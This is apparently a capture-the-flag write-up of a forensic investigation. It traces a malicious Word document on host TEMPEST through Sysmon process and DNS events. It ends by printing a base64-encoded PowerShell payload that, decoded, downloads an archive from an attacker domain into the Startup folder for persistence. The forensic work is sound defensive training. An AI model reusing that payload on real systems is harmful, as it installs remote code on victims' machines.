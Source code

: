 The malicious document has a .doc extension.

The user downloaded the malicious document via chrome.exe.

The malicious document then executed a chain of commands to attain code execution.

Investigation Guide

﻿To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:

Start with the events generated by Sysmon.

EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysmon logs.

Follow the child processes of WinWord.exe.

Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.

We can focus on Sysmon events such as Process Creation (Event ID 1) and DNS Queries (Event ID 22) to correlate the activity generated by the malicious document.

Significant Data Sources:

Sysmon


With this information, I used Sysmon viewer to check out the first source: chrome.exe. Viewing the sysmon files via Sysmon viewer and inspecting chrome.exe led to this result:

The user of this machine was compromised by a malicious document. What is the file name of the document?

free_magicules.doc is the suspicious document that was downloaded. With that we can see a glimpse of the user account that was used to make the download – benimaru, and we can see the name of the computer by using TimeLine Explorer: TEMPEST

What is the name of the compromised user and machine?

the user and machine: benimaru-TEMPEST


What is the PID of the Microsoft Word process that opened the malicious document?Top of Form

Based on the information that was given earlier, the document exececuted commands that began with WINWORD.exe. Tracing the child processes of WINWORD we find that a process was created with a PID of 496.

Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

If we scroll up again we can see the DNS queries attempted and the destination IP.

What is the base64 encoded string in the malicious payload executed by the document?

Top of Form

The next step of the challenge is to find the base64 encoded string the malicious payload executed by the document. To get a better view, I switched to Timeline explorer. From there I started by searching EventID: 496, but it was difficult to find the encoded message. I then instead searched Base64 and got this result.

JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

